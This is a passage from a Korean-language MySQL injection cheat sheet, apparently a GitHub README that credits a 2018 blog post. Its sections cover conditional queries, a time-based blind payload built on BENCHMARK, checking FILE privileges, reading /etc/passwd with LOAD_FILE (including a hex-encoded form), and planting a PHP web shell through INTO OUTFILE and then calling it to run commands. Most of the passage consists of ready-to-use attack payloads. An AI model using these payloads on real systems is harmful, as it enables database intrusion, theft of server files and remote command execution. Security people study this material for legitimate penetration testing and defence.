 ![스크린샷 2024-04-17 오후 2 26 37](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/47812b85-e77c-4619-89a4-205f2563b685)<br><br>

예 :<br>
`SELECT IF(1=1, true, false);<br>
SELECT CASE WHEN 1=1 THEN true ELSE false END;`<br><br><br>



## (13) 타이밍

![스크린샷 2024-04-17 오후 2 27 11](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/81e1a2d6-c1de-40de-abbb-a9c45b63ea51)<br><br>


예 :<br>
`' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '`<br><br><br>



## (14) 특권

**① 파일 특권**<br><br>

다음 쿼리는 주어진 사용자에 대한 FILE 특권을 판별하는데 도움을 줄 수 있음.<br><br>

![스크린샷 2024-04-17 오후 2 27 52](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/47f99eb8-2913-4b6d-84c0-459725f62591)<br><br><br>



## (15) 파일 읽기

사용자에게 FILE 특권이 있으면 파일을 읽을 수 있음.<br><br>

`LOAD_FILE()`<br><br>

예 :<br>
`SELECT LOAD_FILE('/etc/passwd');<br>
SELECT LOAD_FILE(0x2F6574632F706173737764);`<br><br>

노트 :<br>
파일은 서버 호스트에 있어야 함.<br>
LOAD_FILE() 에 대한 basedirectory 는 @@datadir 임.<br>
이 파일은 MySQL 사용자가 읽을 수 있어야 함.<br>
파일 크기는 max_allowed_packet 보다 작아야 함.<br>
@@max_allowed_packet 의 기본 크기는 1047552 바이트임.<br><br><br>



## (16) 파일 쓰기

사용자에게 FILE 특권이 있으면 파일을 작성할 수 있음.<br><br>

`INTO OUTFILE/DUMPFILE`<br><br>

예 :<br>
`PHP 쉘을 작성하려면 :<br>
SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';<br>
다음 위치에서 액세스하십시오 :<br>
hxxp://localhost/shell.php?c=cat%20/etc/passwd`<br><br>


[KOROMOONlink]: https://koromoon.blogspot.com/2018/10/mysql-injection-cheet-sheet.html "Go KOROMOON"